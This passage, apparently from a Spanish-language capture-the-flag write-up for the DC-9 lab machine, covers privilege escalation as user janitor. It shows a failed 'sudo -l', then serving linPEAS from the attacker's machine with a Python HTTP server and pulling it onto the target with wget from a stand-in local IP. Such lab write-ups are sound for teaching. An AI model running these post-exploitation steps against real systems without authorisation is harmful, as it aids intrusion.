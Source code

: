 Para tener una terminal un poco más estable podemos usar el comando `export TERM=xterm` .
<br>
<br>
<br>



------



# Escalada de Privilegios
<br>

Lo primero que vamos a comprobar es si el usuario **janitor** tiene algún privilegio como administrador.

```shell
sudo -l
```
```output
[sudo] password for janitor: 
Sorry, user janitor may not run sudo on dc9.
```


Nada, no tiene permiso ... <br>
<br>

## Linpeas
<br>

Utilizaremos el script de  **Linpeas** para detectar posibles vías de escalada de privilegios, descargamos el script de su [repositorio](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) y lo transferimos de nuestra máquina al servidor levantando un servidor con python

Levantar servidor en python en la ubicación donde se encuentre el archivo:

```shell
python -m http.server 80
```


Descargar el archivo desde el servidor

```shell
wget http://IP_LOCAL/linpeas.sh
```
```output
-- output --

HTTP request sent, awaiting response... 200 OK
Length: 826586 (807K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh             100%[============================>] 807.21K  3.68MB/s    in 0.2s    

2024-10-13 21:43:05 (3.68 MB/s) - ‘linpeas.sh’ saved [826586/826586]
```
<br>
